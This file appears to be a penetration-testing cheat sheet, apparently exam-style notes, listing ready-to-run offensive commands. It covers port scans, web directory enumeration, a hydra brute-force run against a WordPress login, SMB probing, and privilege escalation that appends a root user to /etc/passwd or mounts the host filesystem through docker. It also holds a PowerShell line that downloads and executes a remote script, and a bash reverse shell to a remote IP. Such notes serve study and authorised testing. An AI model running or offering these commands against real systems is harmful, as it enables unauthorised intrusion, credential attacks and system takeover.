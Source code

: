 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt -x php,html | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
nikto -h "$target"

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"
enum4linux -o "$target" -k none
smblcient -L "$target"
smbclient \\\\$target\\WORSPACE

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution

# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

# WordPress (wp)
wpscan --url "http://$target" -e

# Compiling Shared Object (so)
gcc -o outfile.so -shared infile.c -fPIC

# Reverse Shell
bash -i >& /dev/tcp/192.168.119.194/8000 0>&1
